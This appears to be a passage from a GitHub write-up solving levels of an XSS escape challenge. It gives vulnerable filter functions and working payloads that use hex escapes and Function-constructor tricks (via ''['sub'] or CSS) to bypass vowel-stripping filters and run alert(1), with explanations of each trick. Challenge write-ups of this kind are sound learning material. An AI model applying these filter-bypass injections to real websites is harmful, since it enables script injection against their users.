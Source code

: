 ```javascript
```
### solution
```javascript
"["s\x75b"]["c\x6fnstr\x75ct\x6fr"]("\x61l\x65rt(1)")(),"
```
or we can shorten it:
```javascript
",CSS["c\x6fnstr\x75ct\x6fr"]("\x61l\x65rt(1)")(),"
```
### background information
This level filter out the letter `/[aeiouy]/gi` from our input, and want us to execute `alert(1)`. We can build a string `"alert(1)"`(because we can encode the string to pass the `/[aeiouy]/gi` filter) and call it by `eval` or some other ways. Like:
```javascript
""["sub"]["constructor"]("alert(1)")()
```
`“”`is an empty string, `sub` is a method of String, so `""["sub"]`is a function. The `constructor` of any function will be a `Function()` which may act like `eval` in this way:
```javascript
Function("alert(1)")()
```
It declare a anonymous function and immediately execute it.

We can make it short by changing `""["sub"]` with any function that do not have `/[aeiouy]/gi` in it. By enumerating the method of `window`, we find the fine candidate `CSS` function.
```javascript
CSS["constructor"]("alert(1)")()
```
This will also execute `alert(1)`.
## K'Z'K
### code
```javascript
// submitted by Stephen Leppik
function escape(s) {
// remove vowels and escape sequences in honor of K'Z'K 
// y is only sometimes a vowel, so it's only removed as a literal
s = s.replace(/[aeiouy]|\\((x|u00)([46][159f]|[57]5)|1([04][15]|[15][17]|[26]5))/gi, '')
// remove certain characters that can be used to get vowels
s = s.replace(/[{}!=<>]/g, '');
return '<script>console.log("' + s + '");</script>';
}
```
### solution
```javascript
",CSS["c\x!6fnstr\x!75ct\x!6fr"]("\x!61l\x!65rt(1)")(),"
```
### background infomation
Pay more attention if the String is changed twice. Method is same as last challenge.
## K'Z'K
### code
```javascript
// submitted by Stephen Leppik
function escape(s) {
// remove vowels in honor of K'Z'K the Destroyer
s = s.replace(/[aeiouy]/gi, '');
// remove certain characters that can be used to get vowels
s = s.replace(/[{}!=<>\\]/g, '');
return '<script>console.log("' + s + '");</script>';
}
```